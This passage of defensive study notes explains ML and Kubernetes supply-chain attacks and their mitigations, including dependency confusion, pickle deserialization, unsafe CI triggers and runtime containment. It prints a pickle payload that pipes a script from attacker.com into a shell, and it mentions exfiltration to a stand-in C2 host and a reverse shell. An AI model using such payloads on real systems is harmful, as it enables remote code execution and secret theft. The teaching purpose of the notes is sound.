<summary>10. Explain the "Dependency Confusion" attack on Python `pip` installs, and why passing `--extra-index-url` to an internal PyPI server is dangerous.</summary>

Suppose your company has an internal package named `acme-llm-utils==1.2.0` on your internal index. A Dockerfile then runs:
`pip install --extra-index-url https://pypi.internal.acme.com/simple acme-llm-utils`
That command tells `pip` to query both public `pypi.org` and your internal index. It installs whichever offers the highest version number. An attacker who registers `acme-llm-utils==99.0.0` on public `pypi.org` therefore gets `pip` to download and run their package, not your internal `1.2.0`.

Three defenses are mandatory.
1. Never use `--extra-index-url`. Use `--index-url https://pypi.internal.acme.com/simple`, which points exclusively at your internal repository manager, such as Artifactory, Nexus or devpi. That manager proxies vetted public packages and blocks outside shadowing of internal prefixes.
2. Use `--require-hashes` with hash-pinned lockfiles, generated with `uv pip compile --generate-hashes`. Any wheel whose SHA-256 hash does not match the lockfile is rejected at once.
3. Use `--only-binary=:all:`. It stops `pip` from downloading source tarballs (`sdist`) and running arbitrary `setup.py` code during installation.
</details>

<details>
<summary>11. Why is loading a PyTorch checkpoint with default `torch.load("model.pt")` (Python `pickle`) a Remote Code Execution (`RCE`) vulnerability, and what are the three safe alternatives?</summary>

Traditional PyTorch `.pt`, `.bin` and `.pkl` files are Python `pickle` streams. The pickle virtual machine lets any pickled object define a `__reduce__` method, which names an arbitrary Python callable and its arguments. An example is `(os.system, ("curl https://attacker.com/shell.sh | sh",))`. That runs the instant `torch.load()` unpickles the file, before the model is returned. That is why it counts as a remote code execution (RCE) vulnerability.

Three safe practices replace it.
1. Use `safetensors`, such as `model.safetensors`, the Hugging Face and MLCommons standard. It stores a plain JSON header with tensor names, dtypes, shapes and byte offsets, followed by raw flat tensor bytes. Code execution is impossible by design, and the weights can be memory-mapped straight to CPU or GPU with zero copy.
2. Pass `weights_only=True`, as in `torch.load("model.pt", weights_only=True)`. It is the default in PyTorch 2.6 and later, and it restricts the unpickler to primitive tensor data types.
3. Scan untrusted model artifacts in quarantine with `modelscan` or `fickling` before you promote them.
</details>

<details>
<summary>12. What does `trust_remote_code=True` in Hugging Face `transformers` (`AutoModel.from_pretrained(..., trust_remote_code=True)`) do, and how do you govern it?</summary>

When `trust_remote_code=True` is passed, `transformers` downloads and executes custom `.py` modeling and tokenizer files straight from the remote model repository, such as `modeling_custom.py`. Even when the weights are in `safetensors`, a malicious or compromised upstream commit to that `.py` file runs arbitrary code inside your training or inference container.

Governance comes down to a few rules. Never allow `trust_remote_code=True` against mutable branch refs such as `main`, or against public internet hubs at runtime. Mirror the required model repos into your internal artifact store, pinned to an exact audited Git commit SHA, such as `revision="a1b2c3d..."`. Review any `.py` files during quarantine promotion. Block direct internet egress to `huggingface.co` from production namespaces.
</details>

<details>
<summary>13. How do you sign and verify ML model weights and datasets using `OpenSSF model-signing` or OCI Model Artifacts (`ORAS` / `KitOps`)?</summary>

There are two complementary approaches.
1. OpenSSF `model-signing` with Sigstore computes a cryptographic Merkle tree, or manifest hash, over every file in a model directory, such as `model.safetensors`, `config.json` and `tokenizer.json`. It signs that manifest through Sigstore, using Fulcio and Rekor or a KMS key. The model server verifies the signature before it loads the directory.
2. OCI model artifacts, packaged with `ORAS`, `KitOps` or Kubernetes `image` volumes, push the weights as OCI layers to your container registry, such as `registry.example.com/models/llama-3-70b@sha256:...`. You sign them with `cosign sign`. At Pod admission, the same Kyverno `verifyImages` policy used for container images verifies them.
</details>

<details>
<summary>14. Why must admission policies (`verifyImages`) check `initContainers` and `ephemeralContainers` in addition to `spec.containers`?</summary>

`initContainers` and `ephemeralContainers` run inside the same Pod network namespace. They mount the same Secret and PVC volumes, and they use the same `ServiceAccount` token as `spec.containers`. If an admission policy validates only `spec.containers`, an attacker can place a benign signed `pause` image there. They then put an unsigned malicious image in `spec.initContainers`, or attach an unsigned `ephemeralContainer` through `kubectl debug`, to steal Secrets and data. Kyverno's `verifyImages` rule checks `containers`, `initContainers` and `ephemeralContainers` by default. Never disable those checks.
</details>

<details>
<summary>15. What are the two most dangerous GitHub Actions CI misconfigurations (`pull_request_target` and unpinned third-party Actions), and how do you fix them?</summary>

1. A `pull_request_target` workflow that checks out untrusted fork PR code. Unlike `on: pull_request`, which runs with a read-only token and no secrets on fork PRs, `pull_request_target` runs in the context of the base repository. It has write permissions and access to repository secrets. If a workflow triggered by `pull_request_target` checks out and builds or tests the PR's head commit (`ref: ${{ github.event.pull_request.head.sha }}`), an outside attacker who opens a PR can exfiltrate all CI secrets and push malicious images.
2. Third-party GitHub Actions referenced by a mutable tag, such as `uses: some-org/action@v2`. If `some-org` is compromised, as happened in the `tj-actions/changed-files` incident, the attacker moves the `@v2` tag to malicious code. That code can steal runner memory and secrets. Always pin third-party Actions to a full 40-character immutable Git commit SHA, such as `uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2`. Then audit the workflows with `zizmor` and OpenSSF Scorecard.
</details>

<details>
<summary>16. How do you make a `Docker BuildKit` compile step hermetic (`RUN --network=none`), and why does it matter?</summary>

In a multi-stage `Dockerfile`, stage 1, called `fetch`, downloads dependencies only from your internal hash-verified mirror or proxy. Stage 2, called `build`, copies the fetched wheels or sources from stage 1. It then compiles with `RUN --network=none pip install --no-index --find-links=/wheels --require-hashes -r requirements.txt`, and `RUN --network=none make`.

`--network=none` gives the step a network namespace with only a loopback interface and no external routes. So even if a compromised build script or compiler macro tries to download a second-stage payload or exfiltrate source during compilation, the network call fails immediately with `ENETUNREACH`.
</details>

<details>
<summary>17. In *Production Kubernetes* Chapter 15, why is Pull-Based GitOps (`Argo CD` / `Flux`) more secure for the software supply chain than Push-Based CI (`kubectl apply` from Jenkins/GitHub Actions)?</summary>

In a push-based CI pipeline, the CI server must hold long-lived `cluster-admin`, or broad write, kubeconfig credentials for every production Kubernetes cluster. If any build job, third-party CI plugin or runner is compromised, the attacker gains direct write access to production clusters.

In a pull-based GitOps architecture, as *Production Kubernetes* Chapter 15 describes, the CI pipeline only builds, scans and signs the container image. It then opens a pull request that bumps the image digest in the deployment Git repo. The GitOps controller, Argo CD or Flux, runs inside the cluster and pulls reviewed commits from Git. Zero cluster credentials exist in CI, and every deployment requires a signed, reviewed Git commit.
</details>

<details>
<summary>18. How do Runtime Security Controls (`readOnlyRootFilesystem: true`, Default-Deny Egress `NetworkPolicy`, and `Falco`/`Tetragon`) contain a compromised Python dependency that slipped past build checks?</summary>

Suppose a zero-day malicious dependency inside a training container runs at import time.
1. `readOnlyRootFilesystem: true`, `allowPrivilegeEscalation: false` and `drop: ["ALL"]` mean the payload cannot modify `/usr`, `/lib` or Python `site-packages` to persist itself, and it cannot escalate privileges.
2. A default-deny egress `NetworkPolicy` means that when the payload tries to open a reverse shell, or to POST stolen environment variables or weights to `https://attacker-c2.example.com`, the packet is dropped at the CNI `veth` or eBPF filter and logged in Hubble.
3. Tetragon or Falco eBPF runtime detection spots the unusual process tree, such as `python3 -> /bin/sh -> curl`, or an unexpected file read, such as `/var/run/secrets/...`. It then fires a high-priority security alert. Tetragon can also kill the process synchronously, through a `TracingPolicy` with `Sigkill` enforcement.
</details>

<details>
<summary>19. Since Sigstore `cosign` keyless signatures use short-lived 10-minute certificates that have already expired by the time the image runs in production, how do you "revoke" trust in a compromised build or leaked CI workflow?</summary>

In keyless Sigstore, a signature stays valid as long as its Rekor transparency-log timestamp falls within the Fulcio certificate's 10-minute validity window. So if a CI run was compromised and signed a malicious image digest `sha256:bad123...`:
1. Block the compromised digests at once. Add them to your Kyverno or policy-controller admission deny list, and delete or quarantine them in your internal registry.
2. If a KMS or keypair signing key leaked, rotate to a new KMS key version, such as `versions/2`. Update admission policies to trust only `versions/2`, and re-sign the current approved production digests.
3. If a keyless CI workflow was vulnerable before timestamp $T$, update the admission policy's `attestations.conditions`, or the workflow path or tag pattern, to require provenance generated after the fix commit or timestamp.
</details>

<details>
<summary>20. During a "Log4Shell" or "xz"-style zero-day vulnerability disclosure, how do you identify every affected Pod across 10 GPU clusters in under 15 minutes?</summary>

Rather than scanning nodes ad hoc across thousands of running containers, work from inventory.
1. Query your running image digest inventory, using `kubectl get pods -A -o jsonpath='{..imageID}'` or the Prometheus metric `kube_pod_container_info`. That gives the set of active `sha256:...` digests in every cluster.
2. Query your central SBOM inventory database, such as Dependency-Track, GUAC, or the OCI registry's SPDX and CycloneDX attestations, for any SBOM that contains `package == "xz" && version in ["5.6.0", "5.6.1"]`.
3. Intersect the two sets. That produces an exact list of `(cluster, namespace, deployment, pod, owner_team)` tuples that run the vulnerable library. From there, create VEX or patch tickets and trigger automated base-image rebuilds.
</details>

## Sources and review notes

- **Sources read in full:**
  - `production-kubernetes` — Josh Rosso, Rich Lander, Alexander Brand & John Harris, *Production Kubernetes*, **Chapter 15: Software Supply Chain** (read in full: multi-stage Dockerfile with `gcr.io/distroless/base` and `USER nonroot:nonroot`, Cloud Native Buildpacks `pack`, the Golden Base Images Antipattern, Tekton `git-clone` and `buildpacks-phases` `Task` and `Pipeline` manifests, container registries and `Clair`/`Trivy` CVE scanning, Notary v1 Globally Unique Name `GUN` limitations across mirrors, the Quarantine-to-Approved image promotion workflow, and Push-based vs Pull-based GitOps deployments with `Flagger` progressive delivery).
- **Run here:** `python3 code/part05/supply_chain_policy_verifier_lab.py` (3 passed, 0 failed).
- **Explicitly labelled inferences:** The `verify_image_signature_and_mutate_digest`, `evaluate_quarantine_image_promotion`, and `audit_ml_model_and_pip_supply_chain` models in `code/part05/supply_chain_policy_verifier.py` and the `require-signed-images-and-provenance` Kyverno `ClusterPolicy` and Quarantine-to-Approved promotion diagram are the author's constructions synthesizing *Production Kubernetes* Chapter 15 and SLSA/Sigstore/SPDX/CycloneDX/OpenSSF standards (plus original study items 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, and 40).
- **Not verified on live hardware:** Live `cosign`, `syft`, `trivy`, `grype`, `slsa-verifier`, `modelscan`, and `Tekton` executions (`L1-L3` SLSA, `SP 800-218`, `EO 14028`, `OCI 1.1`, `alpine:3.12`, `imagemagick=7.0.10.25-r0`, `git-init:v0.12.1`, `webhookTimeoutSeconds: 15`, `torch 2.6`) are marked (`untested here`) where not executed by `supply_chain_policy_verifier_lab.py`.
